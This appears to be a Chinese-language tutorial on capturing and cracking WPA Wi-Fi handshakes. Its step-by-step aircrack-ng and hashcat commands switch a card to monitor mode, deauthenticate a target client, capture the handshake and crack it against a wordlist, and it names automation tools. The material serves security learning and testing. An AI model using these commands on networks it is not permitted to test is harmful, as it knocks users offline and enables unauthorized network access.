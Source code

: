 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

    ```sh
    iwconfig
    ```

2. 開啓無線網卡監聽模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

    !!! warning
        監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 Wi-Fi 信號.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    當發現目標 Wi-Fi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wi-Fi 通信內容.

    ```sh
    sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 斷開指定設備與指定 Wi-Fi 的鏈接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目標設備從指定 Wi-Fi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

    此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的 hash 進行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap存檔文件] -j [.haccpx文件名称] # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx文件] [字典文件]   # 利用 hashcat 進行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap存檔文件] -w [字典文件]
        ```

8. 關閉無線網卡監聽模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动化

可以利用 Airgeddon/[wifite2](https://github.com/derv82/wifite2)/[WEF](https://github.com/D3Ext/WEF) 等工具来简化上面的流程.  

![Wi-Fite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
